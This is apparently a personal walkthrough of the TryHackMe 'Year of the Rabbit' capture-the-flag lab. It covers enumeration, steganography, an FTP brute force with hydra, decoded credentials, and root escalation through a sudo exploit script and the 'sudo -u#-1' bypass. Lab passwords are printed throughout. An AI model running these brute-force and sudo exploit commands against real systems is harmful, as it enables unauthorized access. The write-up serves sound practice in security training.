 #zsteg #sudo-cve

https://tryhackme.com/r/room/yearoftherabbit

---
#### Nmap
![[Screenshot_2024-05-25_11-17-12.png]]
Enum with `/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`
![[Screenshot_2024-06-12_19-03-52.png]]

In the `style.css` contains a rabbit hole `/sup3r_s3cr3t_fl4g.php` leading on `/intermediary.php?hidden_directory=/WExYY2Cv-qU` leading on the rickroll

When I turn off javascript, the `/sup3r_s3cr3t_fl4g` page tells me
```html
<noscript>Love it when people block Javascript...<br></noscript>
		<noscript>This is happening whether you like it or not... The hint is in the video. If you're stuck here then you're just going to have to bite the bullet!<br>Make sure your audio is turned up!<br></noscript>
```

But when I'm listening to the video, a voice is telling me it is not in the video

On `/WExYY2Cv-qU`, there is a picture `Hot_Babe.png`

I used [aperisolve.com](https://www.aperisolve.com/) to get information and it may be a bingo
```text
**extradata:**0 .. text: "Ot9RrG7h2~24?\nEh, you've earned this. Username for FTP is ftpuser\nOne of these is the password:\nMou+56n%QK8sr\n1618B0AUshw1M\nA56IpIl%1s02u\nvTFbDzX9&Nmu?\nFfF~sfu^UQZmT\n8FF?iKO27b~V0\nua4W~2-@y7dE$\n3j39aMQQ7xFXT\nWb4--CTc4ww*-\nu6oY9?nHv84D&\n0iBp4W69Gr_Yf\nTS*%miyPsGV54\nC77O3FIy0c0sd\nO14xEhgg0Hxz1\n5dpv#Pr$wqH7F\n1G8Ucoce1+gS5\n0plnI%f0~Jw71\n0kLoLzfhqq8u&\nkS9pn5yiFGj6d\nzeff4#!b5Ib_n\nrNT4E4SHDGBkl\nKKH5zy23+S0@B\n3r6PHtM4NzJjE\ngm0!!EC1A0I2?\nHPHr!j00RaDEi\n7N+J9BYSp4uaY\nPYKt-ebvtmWoC\n3TN%cD_E6zm*s\neo?@c!ly3&=0Z\nnR8&FXz$ZPelN\neE4Mu53UkKHx#\n86?004F9!o49d\nSNGY0JjA5@0EE\ntrm64++JZ7R6E\n3zJuGL~8KmiK^\nCR-ItthsH%9du\nyP9kft386bB8G\nA-*eE3L@!4W5o\nGoM^$82l&GA5D\n1t$4$g$I+V_BH\n0XxpTd90Vt8OL\nj0CN?Z#8Bp69_\nG#h~9@5E5QA5l\nDRWNM7auXF7@j\nFw!if_=kk7Oqz\n92d5r$uyw!vaE\nc-AA7a2u!W2*?\nzy8z3kBi#2e36\nJ5%2Hn+7I6QLt\ngL$2fmgnq8vI*\nEtb?i?Kj4R=QM\n7CabD7kwY7=ri\n4uaIRX~-cY6K4\nkY1oxscv4EB2d\nk32?3^x1ex7#o\nep4IPQ_=ku@V8\ntQxFJ909rd1y2\n5L6kpPR5E2Msn\n65NX66Wv~oFP2\nLRAQ@zcBphn!1\nV4bt3*58Z32Xe\nki^t!+uqB?DyI\n5iez1wGXKfPKQ\nnJ90XzX&AnF5v\n7EiMd5!r%=18c\nwYyx6Eq-T^9\#@\nyT2o$2exo~UdW\nZuI-8!JyI6iRS\nPTKM6RsLWZ1&^\n3O$oC~%XUlRO@\nKW3fjzWpUGHSW\nnTzl5f=9eS&*W\nWS9x0ZF=x1%8z\nSr4*E4NT5fOhS\nhLR3xQV*gHYuC\n4P3QgF5kflszS\nNIZ2D%d58*v@R\n0rJ7p%6Axm05K\n94rU30Zx45z5c\nVi^Qf+u%0*q_S\n1Fvdp&bNl3#&l\nzLH%Ot0Bw&c%9\n"
```

It is a password list for the `ftpuser`, I asked my assistant GPT4 to format this list
```text
Mou+56n%QK8sr 1618B0AUshw1M A56IpIl%1s02u vTFbDzX9&Nmu? FfF~sfu^UQZmT 8FF?iKO27b~V0 ua4W~2-@y7dE$ 3j39aMQQ7xFXT Wb4--CTc4ww*- u6oY9?nHv84D& 0iBp4W69Gr_Yf TS*%miyPsGV54 C77O3FIy0c0sd O14xEhgg0Hxz1 5dpv#Pr$wqH7F 1G8Ucoce1+gS5 0plnI%f0~Jw71 0kLoLzfhqq8u& kS9pn5yiFGj6d zeff4#!b5Ib_n rNT4E4SHDGBkl KKH5zy23+S0@B 3r6PHtM4NzJjE gm0!!EC1A0I2? HPHr!j00RaDEi 7N+J9BYSp4uaY PYKt-ebvtmWoC 3TN%cD_E6zm*s eo?@c!ly3&=0Z nR8&FXz$ZPelN eE4Mu53UkKHx# 86?004F9!o49d SNGY0JjA5@0EE trm64++JZ7R6E 3zJuGL~8KmiK^ CR-ItthsH%9du yP9kft386bB8G A-*eE3L@!4W5o GoM^$82l&GA5D 1t$4$g$I+V_BH 0XxpTd90Vt8OL j0CN?Z#8Bp69_ G#h~9@5E5QA5l DRWNM7auXF7@j Fw!if_=kk7Oqz 92d5r$uyw!vaE c-AA7a2u!W2*? zy8z3kBi#2e36 J5%2Hn+7I6QLt gL$2fmgnq8vI* Etb?i?Kj4R=QM 7CabD7kwY7=ri 4uaIRX~-cY6K4 kY1oxscv4EB2d k32?3^x1ex7#o ep4IPQ_=ku@V8 tQxFJ909rd1y2 5L6kpPR5E2Msn 65NX66Wv~oFP2 LRAQ@zcBphn!1 V4bt3*58Z32Xe ki^t!+uqB?DyI 5iez1wGXKfPKQ nJ90XzX&AnF5v 7EiMd5!r%=18c wYyx6Eq-T^9#@ yT2o$2exo~UdW ZuI-8!JyI6iRS PTKM6RsLWZ1&^ 3O$oC~%XUlRO@ KW3fjzWpUGHSW nTzl5f=9eS&*W WS9x0ZF=x1%8z Sr4*E4NT5fOhS hLR3xQV*gHYuC 4P3QgF5kflszS NIZ2D%d58*v@R 0rJ7p%6Axm05K 94rU30Zx45z5c Vi^Qf+u%0*q_S 1Fvdp&bNl3#&l zLH%Ot0Bw&c%9
```

Then I used hydra to bruteforce
```shell
hydra -l ftpuser -P passw ftp://10.10.11.140 -t 4
```

![[Screenshot_2024-06-12_19-51-50.png]]

Here are the creds `ftpuser:5iez1wGXKfPKQ`

I found the file `Eli's Creds.txt` containing a ciphered content

Here is the `brainfuck` deciphered result: `eli:DSpDiM1wAEwid`

And here I am in as `eli`

![[Screenshot_2024-06-13_08-35-26.png]]

I've got this message, this maybe be the key to go on `gwendoline`'s account to get the `user.txt`

So I simply used the following command to find the `s3cr3t` place
```shell
find / -name '*s3cr3t*' 2> /dev/null
```

There is a `.th1s_m3ss4ag3_15_f0r_gw3nd0l1n3_0nly!` file in the `/usr/games/s3cr3t` directory containing `gwendoline`'s password: `MniVCQVhQHUNI`

So the creds are `gwendoline:MniVCQVhQHUNI`

And here I am in as `gwendoline`

The `sudo -l` give me the possibility to use `vi` as any user except root:
![[Screenshot_2024-06-13_09-00-04.png]]

This give me the possibility to switch to every user using the `:shell` command in `vi`

So I used the baron2 cve `exploit_userspec.py` file with
```python
python3 exploit_userspec.py
```

it added a `gg:gg` user in `/etc/shadow`, I just had to `su gg` to become root

The other way was to use the sudo exploit
```shell
sudo -u#-1 /usr/bin/vi /home/gwendoline/user.txt
```

